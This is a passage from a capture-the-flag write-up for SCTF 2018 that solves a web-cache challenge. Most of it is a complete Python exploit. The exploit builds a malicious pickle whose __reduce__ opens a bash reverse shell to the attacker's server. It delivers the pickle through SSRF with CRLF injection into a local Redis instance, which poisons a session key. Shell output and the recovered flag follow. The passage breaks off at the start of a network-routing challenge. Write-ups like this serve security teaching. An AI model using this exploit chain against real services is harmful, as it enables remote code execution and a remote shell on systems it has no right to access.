 this base64 encoded string should be injected to `session:[session_id]` in redis db.
Note that the session cookie is deleted after redirected so you should not to follow redirect.

A conclusive exploit is here:
```python
import requests
import pickle
import base64


class RCE(dict):
    def __reduce__(self):
        return (__import__('os').system, ('bash -c "bash -i >& /dev/tcp/[MY_SERVER_IP]/10080 0>&1"', ))

rce = {'url': '', 'a': RCE()}

payload = base64.b64encode(pickle.dumps(rce))
# cPickle.loads(cPickle.dumps(rce))
# exit(1)

url = "http://webcached.eatpwnnosleep.com/"
# url = "http://localhost:12000"

def ssrf(payload, host='127.0.0.1', port=6379):
    payload = payload.replace('\n', '\r\n ')
    return requests.post(url, data={'url': 'http://{}\r\n {}\r\n :{}'.format(host, payload, port), 'action': ''}).content

req = requests.post(url, data={'url': '', 'action': ''}, allow_redirects=False)

sid = req.cookies['session']

rediscmd = """
set 'session:{sid}' '{payload}'
quit
"""[1:-1].format(sid=sid, payload=payload)

print ssrf(rediscmd)
print requests.get(url, cookies={'session': sid}).content
```

I got shell and found the flag under `/`.

```
www-data@d33597a01cbb:/$ cat flag_dad9d752e1969f0e614ce2a4330efd6e
cat flag_dad9d752e1969f0e614ce2a4330efd6e
SCTF{c652f8004846fe0e3bf9571be26afbf1}
```

## Through The Router {#through_the_router}
> You are an industrial spy hiding in the SCTF company.
> You have found the secret recipe, but could not send any packet to your home.
> That is because SCTF&#39;s corporate network is configured with SDN,
> and that these [rules]> (https://s3.ap-northeast-2.amazonaws.com/sctf2018-qual-binaries/Rules.> png_8e49760cf79defa973b4e7199e50e0f062a49a15) are installed at all routers in the > network.
> 
> Craft a packet that satisfies:
> - It is a UDP packet
> - It arrives at 10.0.0.1:22136.
> - Its body is a 6-byte string 'secret'.
> 
> Your packet will be sent using this python code:
> ```
> s = socket(AF_INET, SOCK_RAW, IPPROTO_UDP)